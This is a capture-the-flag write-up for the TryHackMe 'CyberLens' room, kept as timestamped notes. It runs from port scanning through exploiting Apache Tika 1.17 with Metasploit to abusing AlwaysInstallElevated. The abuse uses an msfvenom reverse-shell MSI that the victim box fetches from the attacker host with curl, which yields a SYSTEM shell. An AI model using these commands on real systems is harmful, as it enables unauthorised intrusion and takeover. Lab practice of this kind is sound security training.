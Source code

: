Platform: TryHackMe\
Room: CyberLens\
URL: https://tryhackme.com/r/room/cyberlensp6 \
Date: June 5, 2024

# Notes
10:21 am\
Loaded target machine\
IP 10.10.234.94

added cyberlens.thm to hosts file (mentioned in the room description)\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/dc1950a7-8a20-4dab-9752-f0bb18e66d02)

Fast NMAP scan of target. `nmap -F cyberlens.thm`\
Found ports 80,135,139,445,3389

rustscan of target. `rustscan -a 10.10.234.94\
Found ports 80,135,139,3389,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671,61777

Running nmap service scan of all open ports `nmap -sV -p80,135,139,3389,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671,61777 cyberlens.thm`
OUTPUT:
```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.57 ((Win64))
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
61777/tcp open  http          Jetty 8.y.z-SNAPSHOT
```
Found HTTP servers on ports 80,5985,47001,61777

Opened firefox browser and burpsuite, proxying traffic

Navigated to http://cyberlens.thm

Identified file upload location\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/7563d775-8fcf-4127-8504-b32fd9ccb44c)

clicked "browse" and selected a benign JPG. Clicked "GET Metadata"

Proxy shows a request made to `cyberlens.thm:61777/meta`

Navigated to https://cyberlens.thm:61777. It is running `Apache Tika 1.17 Server`\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9f653a6f-1c26-4b83-bae5-008279feb550)

Searched exploit-db for "Apache Tika 1.17, and found a metasploit exploit that seems compatible. (https://www.exploit-db.com/exploits/47208)

started msfconsole and searched for apache tika, and found the exploit module.

used module, and using default payload "windows/meterpreter/reverse_tcp"

set RHOSTS cyberlens.thm\
set RPORT 61777\
exploit

Exploit succeeded, established meterpreter shell\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/0013ced4-53ce-40f4-b7a8-db7ea20e3059)

`shell` opened shell. `powershell` opened powershell shell

Navigated to C:\Users. Found 2 users, Administrator and CyberLens

Navigated to C:\Users\CyberLens\Desktop and found a file named "user.txt"

10:48 am\
Obtained first flag\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/8c3cebbe-b8a0-4232-8f92-bfc673e59686)

Navigated to C:\Users\CyberLens\Documents\Management and found file `CyberLens-Management.txt`

File appears to contain credentials:\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/6da3b7e0-1e1f-4a9c-a498-be60ac00cad9)

CyberLens
HackSmarter123

Checked MSI policies and found "AlwaysInstallElevated is enabled, and MSI is Not Disabled\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/7546a965-1d72-4e50-a44b-ef550b9119e6)

Created malicious msi file with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.205.247 LPORT=4445 -f msi -o malicious.msi`. set listening port to 4445 (to not interfere with open meterpreter shell on port 4444)

started python http server on attacker box `python3 -m http.server` in the same folder as the malicious.msi file

Used curl on victim box to curl the maliciuos.msi file from attacker box `curl http://10.10.205.247:8000/malicious.msi -o malicious.msi`\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9cc345fb-54af-47e3-90b7-6503e04d7ad0)

Started nc listener on port 4445 `nc -nlvp 4445` on attacker box

Executed msi file on victim box `./malicious.msi`

Received shell as nt authority\system\ (got root)\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/b3a81216-fa79-4d20-a58b-37290fbd9b37)

Navigated to C:\Users\Administrator\Desktop. Found admin.txt file

11:05 am\
Obtained root flag from admin.txt file\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9e61b498-eaea-43b9-8fef-07c6872d0f6b)

Closed all open channels to victim box
Room Complete.



